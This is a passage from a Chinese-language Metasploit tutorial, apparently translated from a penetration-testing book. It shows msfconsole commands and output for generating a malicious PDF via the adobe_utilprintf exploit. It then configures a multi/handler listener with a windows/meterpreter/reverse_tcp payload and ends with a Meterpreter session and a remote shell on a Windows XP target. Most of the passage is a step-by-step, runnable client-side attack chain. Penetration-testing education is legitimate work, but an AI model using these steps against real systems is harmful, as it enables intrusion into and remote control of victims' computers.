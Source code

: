```
msf exploit(adobe_utilprintf) > exploit
[*] Creating 'progressreport.pdf' file...
[+] progressreport.pdf stored at /root/.msf4/local/progressreport.pdf 
```

最后，一个名为 `progressreport.pdf`的恶意 PDF 文件被创建并存储在 `/root/.msf4/local`文件夹中。

这一次，我们将采用稍微不同的方法来启动反向连接的侦听器。假设出现一种情况，您必须突然关闭 msfconsole。那剥削呢？我们必须再次创建恶意 PDF 吗？答案是否定的。Metasploit 中有一个特殊的侦听器模块，可用于启动 msfconsole 上的侦听器，以便使用为客户端攻击生成的相同文件/链接继续渗透测试过程。考虑一个场景，我们已经生成了恶意 PDF 文件，但还没有用于客户端攻击。因此，让我们再次启动 msfconsole，并使用 `exploit/multi/handler`模块为反向连接设置侦听器。

```
msf > use exploit/multi/handler
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: she..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

如您所见，我们已经设置了模块 `multi/handler`，然后我们还向其添加了有效负载。下一步是根据用法添加 `LHOST`和 `LPORT`。我们还有一个附加选项，可以运行附加脚本以及 multi/handler 模块。我们将在下一章稍后讨论它。最后一步是执行剥削命令并启动侦听器。

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:4444 
```

因此，我们的反向处理程序已启动并运行。现在，一旦在目标机器上执行恶意 PDF，它就可以接收回连接。

一旦在客户端计算机上执行 PDF，它将完全冻结，Adobe Reader 将完全挂起，从而导致拒绝服务。此崩溃的原因是恶意 PDF 文件导致的缓冲区溢出。在攻击者一侧，您将看到 MeterMeter 会话已启动，现在可以远程处理目标机器。

```
[*] Started reverse handler on 192.168.56.101:4444
[*] Starting the payload handler...
[*] Sending stage (752128 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1035) at 2011-11-25 12:29:36 +0530
meterpreter > shell
Process 1880 created.
Channel 1 created.
Microsoft Windows XP SP3
(C) Copyright 1985-2001 Microsoft Corp.
E:\> 
```

